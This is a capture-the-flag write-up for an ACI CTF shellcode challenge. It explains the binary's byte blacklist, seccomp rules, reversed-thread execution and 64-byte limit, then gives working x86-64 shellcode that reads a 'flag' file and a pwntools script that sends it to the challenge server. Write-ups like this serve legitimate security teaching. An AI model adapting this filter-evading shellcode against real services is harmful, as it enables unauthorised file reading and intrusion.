 # UNO Reverse Card (Misc 300)
We've done it! We found an open service that will run code we give it! It looks like the server is multithreaded though... Files: uno. Listening on challenge.acictf.com:20109
- The flag is in a file named "flag".
- Shellcode doesn't always need to spawn a shell.

# Analysis
This challenge is all about writing shellcode, shellcode that specifically fits into the parameters this binary gave us. I spent a little time taking notes on what I was and was not allowed to do in the binary, and what parameters there were. (just because they're in the list below doesn't mean I figured them out right away!)

1. Specific shellcode bytes are blacklisted: 0xc2, 0xc3, 0xca, 0xcb, 0x66, 0x6c, 0x61, and 0x67. Of those, most notable, I cannot use the letters in the word flag, and, I can't use a return.

2. `seccomp` is enabled, and only allows certain syscalls. Specifically, read, write, open, close, exit, and a few others are allowed, all else are blocked.

3. There are two threads, one runs the shellcode forwards, the other runs it in reverse.

4. In order to properly receive output, both threads _must_ return (an exit does not quite achieve this).

5. Before running the shellcode, _all_ file descriptors are closed -- including standard in, standard out, and standard error.

6. Least of all, we only have 64 bytes to fit in our shellcode.

To gloss over a sizable period of testing, I discovered the additional three helpful properties:
1. Since our code is called from a register `call rax`, we know the address of the shellcode is in eax when we begin execution.
2. Similar to the above, when our shellcode executes, we also know that the return address is in `rsp`. Which will assist us in returning properly.
3. The program output was the shellcode provided, and was read from memory after execution.

# Approach
So, my approach to this was to perform two syscalls. One would open the file `flag`. The second would read in the contents, and put it into the location of the shellcode on the stack, which would allow it to be passed back when the results were read and written to the results temp file.

Since I couldn't use the letters in the word `flag`, I changed them all by one and used an increment and a decrement to change them back when executing. (since these opcodes are only one byte long).

Finally, I used the address in rsp to jump back to where the execution had finished, so that the two threads would return properly. (For the reverse solution, I simply sent the `jmp [rsp]` in reverse).


# Solution
```nasm
section .text
  global _start

_start:
  push rsp
  push rax
  xor rax,rax
  xor rsi,rsi
  mov al,0x60
  inc al
  mov ah,0x68
  dec ah
  shl rax,16
  mov ah,0x6b
  inc ah
  mov al,0x65
  inc al
  push rax
  xor rax,rax
  mov rdi,rsp
  mov al, 2
  syscall
  pop rsi
  mov rdi,rax
  xor rax,rax
  xor rsi,rsi
  pop rsi
  xor rdx,rdx
  mov dl,0x30
  syscall
  pop rsp
  jmp [rsp]
```

```python
from pwn import *

context.log_level = 'debug'

shell = "\x54\x50\x48\x31\xc0\x48\x31\xf6\xb0\x60\xfe\xc0\xb4\x68\xfe\xcc\x48\xc1\xe0\x10\xb4\x6b\xfe\xc4\xb0\x65\xfe\xc0\x50\x48\x31\xc0\x48\x89\xe7\xb0\x02\x0f\x05\x5e\x48\x89\xc7\x48\x31\xc0\x48\x31\xf6\x5e\x48\x31\xd2\xb2\x30\x0f\x05\x5c\xff\x24\x24"


shell = shell + '\x90'*(0x40-len(shell)-3)+'\x24\x24\xff'

p = remote("challenge.acictf.com",20109)
#p = process('./uno')

raw_input()
p.send(shell)

p.interactive()
```
